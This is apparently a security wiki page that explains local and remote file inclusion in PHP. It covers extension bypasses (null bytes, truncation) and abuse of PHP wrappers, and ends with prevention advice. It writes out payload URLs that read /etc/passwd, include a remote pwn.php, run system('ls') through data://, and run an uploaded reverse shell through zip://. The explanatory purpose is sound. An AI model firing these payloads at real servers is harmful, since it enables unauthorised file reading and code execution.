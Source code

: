 # File Inclusion vs Directory Traversal
File inclusion vulnerabilities arise when file paths are passed to `include` statements without sanitisation.

It is important to distinguish between file inclusion and [directory traversal](Directory%20Traversal.md) vulnerabilities, as these often get mixed up. A path traversal grants an adversary *direct* access to arbitrary files - the file is simply treated as if it were in the web root directory, even though it might be outside it.

In contrast, file inclusion allows for the "inclusion" of files in the application's running code. This can manifest in different ways. If the file included is a `.php` script, then a simple file inclusion will *execute* the PHP code inside it. If the file is not a PHP file, then its contents will be included somewhere on the page.

## Local File Inclusion (LFI)
A *local file inclusion (LFI)* vulnerability allows for the inclusion of local files, i.e. files which are located on the server itself. Such vulnerabilities can often lead to remote code execution if an adversary can upload to the server a file of their choosing. Another common venue of exploitation is log poisoning, whereby the adversary performs some actions in order to generate certain content in log files and then uses the LFI to execute the log file itself.

The most common place where LFIs occur is in URL file parameters. Consider the following example URL:

```
http://example.com/preview.php?file=index.html
```

If this is vulnerable to LFI, then an adversary can change the `file` parameter in order to include in the web page any file they like. For example, visiting

```
http://example.com/preview.php?file=../../../../../../../etc/passwd`
```

will result in the contents of `/etc/passwd` being displayed somewhere on the `preview.php` web page. 

~~~admonish example title="Example: Directory Traversal vs LFI"
If this were a path traversal instead (for example `http://example.com/../../../etc/passwd`), then the above would result in the direct *download* of the file `/etc/passwd` instead of its contents being included somewhere on the resulting web page.
~~~

## Remote File Inclusion (RFI)
A *remote file inclusion (RFI)* vulnerability allows us to include a file located on a remote host which is accessible via HTTP or SMB. They can be discovered by the same techniques used to find LFIs and path traversals, but instead of using a filename directly, one inserts an entire URL:

```
http://example.com/preview.php?file=http://192.168.0.23/pwn.php
```

These are usually rarer because they require specific configurations such as the `allow_url_include` option in PHP.

```admonish note
If a host is vulnerable to an RFI, they are usually vulnerable to an LFI as well.
```

# Advanced Techniques
Sometimes exploiting file inclusions is a bit more complicated. Consider the following line of code that may be present on the server:

```php
<?php include($_GET['file'].".php"); ?>
```

The `.php` extension is automatically appended to the result from `$_GET['file']` and so the `include` statement will actually be looking for a PHP file instead of the exact path that we want it to. There are, however, several ways to bypass this.

## Null Byte Injection
This can be bypassed by injecting a null byte at the end of the file path. To achieve this, simply append the URL encoding (`%00`) of a null byte to the end of the file path:

```
http://example.com/preview.php?file=../../../etc/passwd%00
```

A null byte denotes the end of a string and so any characters after it will be ignored. Even though the string (`http://example.com/preview.php?file=../../../etc/passwd%00.php`) that gets passed to `include` still ends in `.php`, this extension is preceded by a null byte and will thus be ignored.

## Path Truncation
Most installations of PHP limit a file path to 4096 bytes. If a file name is longer than this, then PHP simply truncates it by discarding any additional characters. Therefore, the `.php` extension can be dropped by pushing it over the 4096-byte limit. This can be achieved by URL encoding the file, using double encoding and so on.

## Filter Bypass
Sometimes filters are used to try and prevent file inclusions, but these can usually be bypassed using the same techniques used with [directory traversals](Directory%20Traversal.md#filter-bypass)

## PHP Wrappers
PHP wrappers augment file operation capabilities. There are many built-in wrappers which can be used with file system APIs, and developers can also implement custom ones. Wrappers can be found in pre-existing code on the web server or they can be injected by an adversary to enhance and further exploit a file inclusion vulnerability.

### PHP Filter Wrapper
The `php://filter` wrapper can be used to *display* the contents of sensitive files with or without encoding. It is especially useful because it allows us to *read* a PHP file on the server rather than execute it as a typical LFI would. 

The basic syntax for the `php://filter` wrapper is

```php
php://filter/ENCODING/resource=FILE
```

The encoding may or may not be present. One common encoding is `convert.base64-encode`.

~~~admonish example
Using the earlier example, the filter wrapper can allow an adversary to read the contents of the `preview.php` file itself!

```
http://example.com/preview.php?file=php://filter/resource=preview.php
```

The content can also be obtained in a Base64-encoded format by utilising the following payload:

```
http://example.com/preview.php?file=php://filter/convert.base64-encode/resource=preview.php
```

~~~

### Data Wrapper
The `data://` wrapper embeds content in a plaintext or Base64-encoded format into the code of the running web application and can be used to achieve code execution when we cannot directly poison or upload a PHP file to the server. 

```admonish note
The `data://` wrapper requires that the `allow_url_include` option is enabled.
```

The plaintext syntax is the following:

```php
data://text/plain,CODE
```

The Base64-encoding can be used to bypass firewalls and filters which remove common payload strings such as `"system"` or `"bash"`:

```php
data://text/plain;base64,BASE64-ENCODED CODE
```

~~~admonish example
To weaponise the `data://` wrapper in the previous example, an adversary can use the following payload:

```
http://example.com/preview.php?file=data://text/plain,<?php%20echo%20sy
stem('ls');?>
```

This would list the contents of the current directory. Alternatively, they could use the Base64 encoding of the same code:

```
http://example.com/preview.php?file=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oImxzKTsgPz4K
```
~~~

### Zip Wrapper
The `zip://` wrapper was introduced in PHP 7.2.0 for the manipulation of `zip` compressed files. Its basic syntax is this:

```php
zip://PATH TO ZIP#PATH INSIDE ZIP
```

~~~admonish note
The `#` character is usually used in its URL-encoded form, namely `%23`.
~~~

The best thing about the `zip://` wrapper is that it does not require the file to have a `.zip` extension. This means that this wrapper can be used to bypass file upload filters by changing the file extension to `.jpg` or any permitted extension.

~~~admonish example
An adversary can leverage the `zip://` filter by creating a reverse shell in a file `code.php` and then compressing it to `exploit.zip`. If there are any extension filters, then they are free rename the ZIP file to any extension they like but will have to account for this in the final payload. After uploading the malicious ZIP file to the server, they can navigate to it via

```
http://example.com/preview.php?file=zip://uploads/exploit.zip%23code.php
```

The server will then execute the reverse shell inside the malicious file. If the `.php` extension were automatically appended by the server, then one can just change the file name `code.php` to `code` before creating the ZIP archive.
~~~

### Expect Wrapper
The `expect://` wrapper is *disabled* by default since it is particularly dangerous, for it allows for direct code execution. Its syntax is

```php
expect://COMMAND
```

The wrapper will execute the `COMMAND` in Bash and return its result.

# Prevention
One should avoid passing user input to file system APIs entirely. If this is absolutely impossible to implement, then user input should be validated before processing. In the ideal case this should happen by comparing the input with a whitelist of permitted values. At the very least, one should verify that the user input contains only permitted characters such as alphanumeric ones.

After such validation, the user input should be appended to the base directory and the file system API should be used canonicalise the resulting path. Ultimately, one should verify that this canonical path begins with the base directory. 
